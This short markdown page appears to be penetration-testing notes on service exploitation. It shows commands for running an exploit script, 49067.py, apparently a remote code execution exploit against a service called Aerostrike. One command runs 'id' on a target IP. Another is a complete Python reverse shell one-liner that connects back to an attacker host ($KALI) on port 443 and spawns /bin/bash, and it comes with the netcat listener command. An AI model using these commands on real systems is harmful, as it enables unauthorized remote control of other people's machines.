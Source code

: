 # 03 - Service Exploitation

Index
- [Example: reverse shell](#Example-reverse-shell)
    - [ID 49067 RCE and Reverse Shell](#ID-49067-RCE-and-Reverse-Shell)

## Example: reverse shell
### ID 49067 RCE and Reverse Shell
Aerostrike RCE:
``` bash
python 49067.py --ahost 192.168.1.1 -aport 3000 --cmd "id"
```
Python Reverse Shell example:
``` bash
## require nc listener: nc -nvlp 443
python 49067.py --ahost 192.168.1.1 --cmd "python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"$KALI\",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn(\"/bin/bash\")'"
```